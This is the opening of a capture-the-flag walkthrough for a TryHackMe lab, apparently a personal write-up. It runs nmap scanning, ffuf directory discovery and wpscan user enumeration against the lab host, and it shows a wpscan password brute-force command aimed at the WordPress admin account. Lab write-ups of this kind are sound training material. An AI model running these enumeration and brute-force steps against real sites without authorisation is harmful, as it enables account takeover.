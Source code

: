 ![image](https://user-images.githubusercontent.com/87468669/194774642-06db820e-69da-4493-a93a-d01368bf8485.png)

```
You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

Scope of Work

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

    User.txt
    Root.txt

Additionally, the client has provided the following scope allowances:

    Ensure that you modify your hosts file to reflect internal.thm
    Any tools or techniques are permitted in this engagement
    Locate and note all vulnerabilities found
    Submit the flags discovered to the dashboard
    Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.


Note - this room can be completed without Metasploit
```

First we start with nmap scan.

```
# Nmap 7.92 scan initiated Sun Oct  9 12:52:29 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 10.10.202.145
Warning: 10.10.202.145 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.202.145
Host is up (0.24s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp   open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1088/tcp filtered cplscrambler-al
1718/tcp filtered h323gatedisc
6129/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  9 12:53:09 2022 -- 1 IP address (1 host up) scanned in 39.85 seconds
```

We have http and ssh ports open, let's enumerate http.

![image](https://user-images.githubusercontent.com/87468669/194774860-3a41d45e-101b-4a52-8952-bd414b525082.png)

cool it's running apache web service, let burst hidden directories

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/Internal]
└─$ ffuf -u "http://10.10.202.145/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.202.145/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

blog                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 198ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 185ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 210ms]
phpmyadmin              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 208ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 181ms]
wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 200ms]
:: Progress: [4713/4713] :: Job [1/1] :: 225 req/sec :: Duration: [0:01:34] :: Errors: 80 ::
```

let's check the dir path /blog 

![image](https://user-images.githubusercontent.com/87468669/194775031-053e2b43-039f-4d02-8c05-4c69d6188775.png)

The page path /blog seems to be running wordpress cms, let's enumerate with wpscan.

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/Internal]                                                                                                              
└─$ wpscan --url http://10.10.202.145/blog/ --enumerate u  
```

Enumerating for usernames on the wordpress blog and we got only one which is `admin` .

![image](https://user-images.githubusercontent.com/87468669/194775325-5b1976e7-8db0-4bcf-8854-656c180c3fde.png)

Let's try bruteforce the user password for the user admin

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/THM/Internal]
└─$ wpscan --url http://10.10.202.145/blog/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt 
```


